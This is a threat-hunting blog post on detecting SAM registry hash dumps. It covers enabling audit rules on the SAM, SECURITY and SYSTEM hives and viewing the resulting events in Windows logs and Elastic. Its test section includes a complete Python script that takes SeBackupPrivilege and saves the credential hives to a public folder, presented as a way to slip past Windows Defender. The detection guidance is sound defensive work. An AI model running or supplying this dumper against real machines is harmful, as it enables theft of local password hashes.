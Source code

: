 ```yaml
---
title:  "Locating SAM registry hashdumps using Elastic!"
header:
  teaser: "/assets/images/samhashdetect.png"
categories:
  - Threat Hunting
tags:
  - elk
  - hashdump
  - thumbdrive
  - SAM
  - SECURITY
  - SYSTEM
  - registry hive
  - elastic
  - kibana
  - logstash
  - filebeats
  - threat hunting
  - blue team
  - winlogbeat
  - sysmon
  - elevationstation
---
```


You guys know what time it is? IT'S GO TIME! Time to dive in and learn how to detect a red teamer trying to grab your local SAM hashes from the registry.  

**Detecting SAM Hashdump attempts - The Setup**
-

First, open up `gpedit.msc`

Next, navigate to this section and enable the highlighted subcategories.  You really only need to enable like two of these, but this is to prepare you for the next writeup where we will be detecting thumbdrives as they are plugged in to any USB port!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5e6048d6-5e1b-4c28-95ea-01cf8b405b60)

Okay now for the tedious part...we need to enable auditing for all three keys: **SAM**, **SECURITY**, AND **SYSTEM**

We will start with setting up auditing for the SAM registry hive file:

Open `regedit.exe`

right click on `SAM`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/e8fdd743-fae6-4e2d-b97e-a9b9efb71a40)

Choose `"Permissions"`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c84f925-60d1-4761-98a6-22c5eb76b105)

Choose `"Advanced"`

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/17fdbc6d-6275-42d7-986d-d4b8d5705789)

Okay, for this next part you want to create a new Security Principal.  We want that new principal to be "Everyone" since we want to audit all accounts that try to access this registry key.  Once that principal is created, it will look like this:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/0b2d7016-6f3f-4cd4-9a19-064830c8b69a)

Also make sure you choose `"This key only"`

Almost there.  Next, double click on the newly created `"Everyone"` Principal.  Then, choose `"Show advanced permissions"` in the upper right hand corner.

That will need to look like this:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f2d09f32-1daf-488a-ad28-9a74a72e0c98)

PHEW!  glad that's over with....or is it?!?!  Well sort of.  We still have to do what we just did with the SAM registry file to the SECURITY and SYSTEM. But I don't feel like creating images and typing all this out again, so here's what we're going to do.  I'm going to list what you need to do below for the SECURITY AND SYSTEM keys for your auditing config needs.  Let's go!

**SECURITY**

- `Everyone`
  - `This key only`

**SECURITY/Cache**

- `Everyone`
  - `This key and subkeys`
 
**SECURITY/Policy/Secrets**

- `Everyone`
  - `This key and subkeys`
 
**SYSTEM**

- `Everyone`
  - `This key only`

Okay, you can choose to dump the SAM, SECURITY, and SYSTEM files manually via regedit.exe (You'll likely get snagged by Windows Defender AV).  Or....you could do the tactical way.  Let's go the tactical route.  We're going to use python to write our registry dump script:

Download the raw python script here: [dumpy.py](https://github.com/g3tsyst3m/undertheradar/blob/main/dumpy.py)

Or, simply copy pasta from here:

```python
import win32security
import win32api
import win32con
import win32process
import os
import sys
import winreg
import ntsecuritycon as ntc
import pywintypes


def ElevatedorNot():
    thehandle=win32security.OpenProcessToken(win32api.GetCurrentProcess(), win32con.TOKEN_QUERY)
    elevated = win32security.GetTokenInformation(thehandle, win32security.TokenElevation)
    #print("is token elevated?", elevated)
    if elevated == 1:
        print("[+] elevated status: TokenIsElevated!!!")
        return True
    else:
        print("[!] token is not elevated...")
        return False

def SetBackupPrivilege():
    try:
        thehandle=win32security.OpenProcessToken(win32api.GetCurrentProcess(), win32con.TOKEN_ADJUST_PRIVILEGES | win32con.TOKEN_QUERY)
        id = win32security.LookupPrivilegeValue(None, "SeBackupPrivilege")
        newPrivileges = [(id, win32security.SE_PRIVILEGE_ENABLED)]
        win32security.AdjustTokenPrivileges(thehandle, False, newPrivileges)
        print("[+] successfully gained SeBackupPrivilege!!!!")
        return True
    except:
        print("[!] couldn't get seDebugPrivilege...")
        return False

def dumpreg():
    #Sam File
    samhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SAM", 0, win32con.KEY_ALL_ACCESS)
    win32api.RegSaveKey(samhandle, "c:\\users\\public\\sam.save", None)
    win32api.RegCloseKey(samhandle)
    
    #System File
    systemhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SYSTEM", 0, win32con.KEY_ALL_ACCESS)
    win32api.RegSaveKey(systemhandle, "c:\\users\\public\\system.save", None)
    win32api.RegCloseKey(systemhandle)
    
    
    #Security File (we dont have permissions to get this by default...but it's really only useful for domain creds and I just want local admin)
    try:
        securityhandle=win32api.RegOpenKeyEx(win32con.HKEY_LOCAL_MACHINE, "SECURITY", 0, win32con.KEY_ALL_ACCESS)
        win32api.RegSaveKey(securityhandle, "c:\\users\\public\\security.save", None)
        win32api.RegCloseKey(securityhandle)
    except:
        print("you don't have permission to grab the SECURITY file...")
    return True
if not ElevatedorNot():
    print("[!] not elevated...\n")
    exit()
if not SetBackupPrivilege():
    print("[!] could not get seBackupPrivilege...\n")
    exit()
if dumpreg():
    print("[+] Successfully dumped SAM, SYSTEM, and SECURITY files!!!\n")
    exit()
else:
    print("[!] couldn't dump registry...\n")
f.close()
```

Save it, and run it:  

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8ca9d23e-d9ed-4fbf-815c-c849b7c05d3b)

If everything was setup correctly, you should see the following in windows event logs:

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f04ab046-20c6-433d-9cea-8a25d0c2d73c)

And last but certainly not least, in Elastic!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/56d79889-9d65-44cd-b92b-a64501f2945d)

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8381222b-e061-42c0-b98a-8292b25baa96)

Hope this helps my fellow red team and blue teamers out there. It's knowledge you need regardless of which role you're in. 😸 Blue team for obvious reasons.  Red team, to see the possibilities built-in to Windows for detecting your clever tricks.  Until next time, adios!

